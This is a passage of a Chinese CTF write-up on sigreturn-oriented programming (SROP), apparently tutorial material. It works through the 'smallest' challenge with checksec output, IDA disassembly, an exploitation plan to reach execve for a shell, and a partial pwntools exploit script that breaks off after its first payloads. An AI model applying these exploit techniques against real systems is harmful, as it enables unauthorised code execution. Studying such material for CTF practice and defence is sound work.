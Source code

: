 # 利用工具
值得一提的是，在目前的 pwntools 中已经集成了对于 srop 的攻击。

# 示例

## 2016-360春秋杯-srop
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/srop/2016-360%E6%98%A5%E7%A7%8B%E6%9D%AF-srop

### 检查保护
```sh
➜  2016-360春秋杯-srop checksec smallest 
[*] '/home/zzkkk1h/Desktop/ctf-challenges-master/pwn/stackoverflow/srop/2016-360春秋杯-srop/smallest'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### ida分析
```x86asm
.text:00000000004000B0                 public start
.text:00000000004000B0 start           proc near               ; DATA XREF: LOAD:0000000000400018↑o
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 mov     edx, 400h       ; count
.text:00000000004000B8                 mov     rsi, rsp        ; buf
.text:00000000004000BB                 mov     rdi, rax        ; fd
.text:00000000004000BE                 syscall                 ; LINUX - sys_read
.text:00000000004000C0                 retn
.text:00000000004000C0 start           endp
.text:00000000004000C0
.text:00000000004000C0 _text           ends
.text:00000000004000C0
.text:00000000004000C0
.text:00000000004000C0                 end start
```
执行了一个read系统调用，对应的函数为read(0,*rsp,0x400)，明显有栈溢出

### 利用思路
首先通过read的返回值控制rax，从而执行sigreturn的系统调用（64位sigreturn的系统调用号为15）
利用sigreturn布置寄存器，从而执行execve系统调用获取shell

### exp
```python
from pwn import *

p = process("./smallest")

context.arch = 'amd64'
#context.log_level = 'debug'
#gdb.attach(p)

syscall_ret = 0x4000BE
start_addr = 0x4000B0

payload1 = p64(start_addr)*3
p.send(payload1)
sleep(0.1)
p.send(b'\xb3')
```